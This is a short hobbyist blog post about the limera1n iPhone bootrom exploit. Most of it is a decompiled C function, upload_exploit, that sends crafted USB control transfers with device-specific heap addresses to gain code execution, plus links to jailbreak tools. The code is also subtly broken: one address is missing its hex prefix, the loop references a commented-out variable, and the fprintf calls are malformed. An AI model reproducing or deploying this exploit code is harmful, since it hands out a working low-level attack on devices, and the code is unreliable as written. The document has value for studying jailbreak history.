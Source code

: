 ```yaml
---
layout: post
title: "What is limera1n?"
description: "Devices with the limera1n vulnerability are the most fun device to play with."
category: articles
tags: [limera1n, iphone 4, info]
image:
  feature: "limera1npaper.png"
---
```


limera1n
========
limera1n is a bootrom exploit found by `geohot` that works on all A4 and below devices. It is the last public bootrom exploit to be released to this day. A bootrom exploit is an exploit that can be run on a device with any iOS version. The reason I am talking about limera1n is because it will be mentioned often in my posts. I like to mess around with this exploit a lot and find out all of the cool stuff I can do with it. It has been made into a tethered jailbreak ([Mac](http://limera1n.com/limera1n.zip), [Windows](http://limera1n.com/limera1n.exe)) which you can untether using the `0x24000 Segment Overflow` exploit or the `Packet Filter Kernel Exploit`. 


Code Executed
=============
```
signed int __cdecl upload_exploit() {
int device_type;
signed int payload_address;
int free_address;
int deviceerror;
char *chunk_headers_ptr;
unsigned int sent_counter;
//int v6;
signed int result; 
//signed int v8;
int recv_error_code;
signed int payload_address2;
signed int padding_size;
char payload;
char chunk_headers;
//int v14;
//v14 = *MK_FP(__GS__, 20);
device_type = *(_DWORD *)(device + 16);

if ( device_type == 8930 ) {
padding_size = 0x2A800;
payload_address = 0x8402B001;
free_address = 0x8403BF9C;
} else {
payload_address = 0x84023001;
padding_size = 0x22800;
// free_address = (((device_type == 8920) – 1) & 0xFFFFFFF4) – 0x7BFCC05C;
if(device_type == 8920) free_address = 0x84033FA4;
else free_address = 84033F98;
}

memset(&payload, 0, 0x800);
memcpy(&payload, exploit, 0x230);

if (libpois0n_debug) {
//v8 = payload_address;
fprintf(stderr, 1, "Resetting device counters\n");
//payload_address = v8;
}

payload_address2 = payload_address;
deviceerror = irecv_reset_counters(client);

if ( deviceerror ) {
irecv_strerror(deviceerror);
fprintf(stderr, 1, &aCannotFindS[12]);
result = -1;
} else {
memset(&chunk_headers, 0xCC, 0x800);
chunk_headers_ptr = &chunk_headers;

do {
*(_DWORD *)chunk_headers_ptr = 1029;       
*((_DWORD *)chunk_headers_ptr + 1) = 257;
*((_DWORD *)chunk_headers_ptr + 2) = payload_address2;  
*((_DWORD *)chunk_headers_ptr + 3) = free_address;
chunk_headers_ptr += 64;
} while ((int *)chunk_headers_ptr != &v14);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending chunk headers\n");

sent_counter = 0;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
memset(&chunk_headers, 0xCC, 0x800);

do {
sent_counter += 0x800;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
} while (sent_counter < padding_size);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending exploit payload\n");

irecv_control_transfer(client, 0x21, 1, 0, 0, &payload, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending fake data\n");

memset(&chunk_headers, 0xBB, 0x800);
irecv_control_transfer(client, 0xA1, 1, 0, 0, &chunk_headers, 0x800);
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Executing exploit\n");

irecv_control_transfer(client, 0x21, 2, 0, 0, &chunk_headers, 0);
irecv_reset(client);
irecv_finish_transfer(client);

if (libpois0n_debug) {
fprintf(stderr, 1, "Exploit sent\n");
if (libpois0n_debug)
fprintf(stderr, 1, "Reconnecting to device\n");
}

client = (void *)irecv_reconnect(client, 2);

if (client) {
result = 0;
} else {
if (libpois0n_debug) {
recv_error_code = irecv_strerror(0);
fprintf(stderr, 1, &aCannotFindS[12], recv_error_code);
}
fprintf(stderr, 1, "Unable to reconnect\n");
result = -1;
}
}

// compiler stack check
//if (*MK_FP(__GS__, 20) != v14)
//    __stack_chk_fail(v6, *MK_FP(__GS__, 20) ^ v14);

return result;
}
```